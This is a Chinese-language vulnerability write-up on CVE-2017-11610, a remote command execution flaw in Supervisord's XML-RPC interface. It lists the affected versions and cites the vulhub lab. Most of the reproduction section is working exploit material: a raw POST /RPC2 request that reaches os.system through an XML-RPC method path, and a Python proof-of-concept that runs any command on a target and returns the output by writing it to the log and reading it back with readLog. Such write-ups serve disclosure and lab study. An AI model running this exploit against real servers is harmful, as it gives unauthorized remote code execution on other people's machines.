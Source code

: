 （CVE-2017-11610）Supervisord 远程命令执行漏洞
==============================================

一、漏洞简介
------------

Supervisor是一套进程控制系统，用于监视和控制类Unix系统上的进程。XML-RPC
server是其中的一个XML-RPC服务器。
Supervisor中的XML-RPC服务器存在安全漏洞。远程攻击者可借助特制的XML-RPC请求利用该漏洞执行任意命令。

二、漏洞影响
------------

supervisor
3.0.1之前的版本，3.1.4之前的3.1.x版本，3.2.4之前的3.2.x版本，3.3.3之前的3.3.x版本。

三、复现过程
------------

直接执行任意命令：

    POST /RPC2 HTTP/1.1
    Host: www.0-sec.org
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 213

    <?xml version="1.0"?>
    <methodCall>
    <methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
    <params>
    <param>
    <string>touch /tmp/success</string>
    </param>
    </params>
    </methodCall>

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-11610)Supervisord远程命令执行漏洞/media/rId24.png)

### 关于直接回显的POC

\@Ricter
在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC：直接贴出来吧：

    #!/usr/bin/env python3
    import xmlrpc.client
    import sys


    target = sys.argv[1]
    command = sys.argv[2]
    with xmlrpc.client.ServerProxy(target) as proxy:
        old = getattr(proxy, 'supervisor.readLog')(0,0)

        logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
        getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
        result = getattr(proxy, 'supervisor.readLog')(0,0)

        print(result[len(old):])

使用Python3执行并获取结果：`./poc.py "http://www.0-sec.org:9001/RPC2" "command"`：![02.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-11610)Supervisord远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/supervisor/CVE-2017-11610/
